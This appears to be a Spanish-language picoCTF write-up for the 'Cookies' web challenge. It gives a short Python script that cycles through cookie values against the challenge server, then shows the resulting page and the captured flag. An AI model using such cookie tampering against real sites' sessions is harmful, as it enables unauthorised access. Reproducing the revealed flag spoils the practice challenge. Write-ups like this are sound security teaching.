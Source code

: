 
## Descripción:
	Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

## Solución:

Hice el uso de la librería requests para enviar solicitudes HTTP a la pagina dada  y buscar el texto (`picoCTF`) en la respuesta.
### Código Python:
```
import requests

url = "http://mercury.picoctf.net:29649/"

for i in range(21):
    cookies = {'name': '{}'.format(i)}
    r = requests.get(url, cookies=cookies)
    
    if 'picoCTF' in r.text:
        print(r.text) 
```

### Salida de consola:
```
Krykoso-picoctf@webshell:~$ python3 exp.py 
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```


### Bandera
	picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}